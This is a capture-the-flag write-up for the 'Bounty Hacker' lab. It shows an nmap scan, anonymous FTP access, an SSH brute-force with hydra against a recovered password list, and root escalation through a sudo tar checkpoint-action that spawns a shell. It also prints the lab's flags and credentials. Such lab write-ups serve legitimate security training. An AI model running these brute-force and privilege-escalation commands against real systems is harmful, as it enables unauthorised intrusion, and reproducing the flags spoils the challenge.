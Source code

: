 **Tristan Gomez**

```
You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims!
Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

```

We'll start with a classic nmap scan. It seems like 3 ports are open. Let's try to connect using ftp and see if anonymous ftp is allowed.
```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~]
└─$ sudo nmap -sS 10.10.115.79
[sudo] password for gomez22: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-14 12:04 PDT
Nmap scan report for 10.10.115.79
Host is up (0.16s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```


Oh wow, we just needed the name `anonymous` and didn't even need a password. Looks like we have 2 files in this ftp directory. Let's take a look at them.
```
ftp> open 10.10.9.85
Connected to 10.10.9.85.
220 (vsFTPd 3.0.3)
Name (10.10.9.85:gomez22): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

In `task.txt`
```
└─$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
We have 2 potential login names, `lin` and `Vicious`.

In locks.txt, we have...
```
└─$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
Hmm, this looks like a password list. I am going to try to try to brute force the ssh login using this list in hydra. `$ hydra -l lin -P locks.txt ssh://10.10.115.79`  

```
[22][ssh] host: 10.10.115.79   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-14 12:47:27
```
We have a password! -> `RedDr4gonSynd1cat3`


Let's login and get the user flag!
```
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```


Now, we need to privesc to get the root flag. Let's check the permissions for lin
```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Huh, we can run tar as root with lin. Let's consult `gtfobins` to see how to abuse this.

Running the below command gives us root.
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```

Bam, ez!

